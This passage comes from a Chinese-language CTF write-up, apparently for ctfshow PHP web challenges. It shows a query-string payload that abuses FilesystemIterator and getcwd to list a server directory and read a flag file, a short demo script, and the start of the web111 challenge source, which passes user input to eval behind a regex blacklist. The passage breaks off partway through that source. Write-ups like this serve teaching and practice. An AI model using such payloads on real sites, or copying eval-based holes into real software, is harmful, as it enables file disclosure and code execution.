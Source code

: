 以使用FilesystemIterator文件系统迭代器来进行利用，通过新建FilesystemIterator，使用getcwd()来显示当前目录下的文件结构

**payload**

```
?v1=FilesystemIterator&v2=getcwd
```

回显fl36dga.txt

访问url/fl36dga.txt得到flag

其实这里的`FilesystemIterator`没咋弄懂，还需要找师傅请教一下

后续

稍微懂了一点

> 通过新建FilesystemIterator，可以显示当前目录下的文件结构。由于参数内部有个括号，所以不能使用字符串来索引路径，而是要通过拼接方法getcwd()来获取当前的路径

```
<?php
	error_reporting(0);
	echo getcwd().PHP_EOL;
	echo new FilesystemIterator('./').PHP_EOL;
	echo new FilesystemIterator(getcwd());
?>
输出为
D:\PHP
  index.php
  index.php
```



### web111

```
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
     
```
